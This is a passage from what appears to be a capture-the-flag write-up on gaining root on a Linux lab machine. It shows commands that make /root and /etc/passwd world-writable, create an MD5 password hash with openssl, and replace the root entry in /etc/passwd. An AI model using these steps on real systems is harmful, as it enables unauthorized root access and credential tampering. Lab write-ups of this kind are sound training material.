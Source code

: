 ```python
import os
os.system("chmod 777 /root; chmod 777 /root/*")`
```

Now we can read the */root/root.txt* file. In order to get root user we can change the contents of /etc/passwd file according to our needs. First lets change the permissions on */etc/passwd* file

```python
import os
os.system("chmod 777 /etc/passwd")`
```

Now lets generate a new password for it using `openssl` i would be using `testguy` as the password.

```bash
openssl passwd -1
Password: 
Verifying - Password: 
$1$1gECYGIY$WhmXL4CD9GHiPLMdnJxSQ0
```

Now just copy the string `$1$1gECYGIY$WhmXL4CD9GHiPLMdnJxSQ0` to /etc/passwd so that looks like:

```bash
root:$1$1gECYGIY$WhmXL4CD9GHiPLMdnJxSQ0:0:0:root:/root:/bin/bash
```

Now just login using `su` with password `testguy`. We have the root user now. In order to remove user `ruvik` just use `deluser ruvik`

